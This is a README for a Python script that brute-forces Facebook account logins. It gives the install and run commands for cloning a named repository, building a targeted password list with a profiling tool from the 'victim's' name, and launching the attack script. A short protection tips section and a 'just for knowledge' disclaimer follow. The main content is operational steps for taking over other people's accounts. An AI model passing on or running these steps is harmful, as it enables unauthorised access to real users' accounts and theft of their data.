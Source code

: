 # Facebook-BruteForce
bruteforce attack on facebook account script in python

## Install Requirements(Linux)
* apt-get install git python3 python3-pip python python-pip

## Run commands one by one
* git clone https://github.com/donnahurchy/FB-Bforce.git
* cd FB-Bforce
* pip3 install requests bs4
* pip install mechanize
* chmod +x *
* ./cupp.py -i
* mv abc.txt passwords.txt (replace abc with victim's name)
* python3 fb.py


## Protection Against Attacker
* Use Strong Password(Contain all chars + longest as possible)
* Use two way authentication.
* Make location based login(+browser based).




~~~
Happy Hacking ! (Please do not spam it, It's Just For Knowledge ...).
~~~
